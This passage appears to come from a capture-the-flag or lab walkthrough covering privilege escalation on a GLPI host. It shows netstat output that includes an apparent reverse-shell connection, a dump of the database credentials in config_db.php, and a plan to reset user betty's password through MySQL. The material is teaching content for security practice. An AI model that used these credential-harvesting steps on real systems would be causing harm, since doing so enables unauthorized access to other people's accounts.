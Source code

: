 **Initial Foothold Obtained**

## Privilege Escalation

Internal running process shows mysql server is running on port 3306. 

```sh
www-data@glpi:/home/betty$ netstat -antup
netstat -antup
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 192.168.169.242:80      192.168.45.194:39558    ESTABLISHED -                   
tcp        0    140 192.168.169.242:60292   192.168.45.194:80       ESTABLISHED 3203/bash           
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                  
```

**MySQL Credentials**

```sh
www-data@glpi:/var/www/glpi/config$ cat config_db.php
cat config_db.php
<?php
class DB extends DBmysql {
   public $dbhost = 'localhost';
   public $dbuser = 'glpi';
   public $dbpassword = 'glpi_db_password';
   public $dbdefault = 'glpi';
   public $use_utf8mb4 = true;
   public $allow_myisam = false;
   public $allow_datetime = false;
   public $allow_signed_keys = false;
}
www-data@glpi:/var/www/glpi/config$
```

Login to mysql and update password for user betty. 

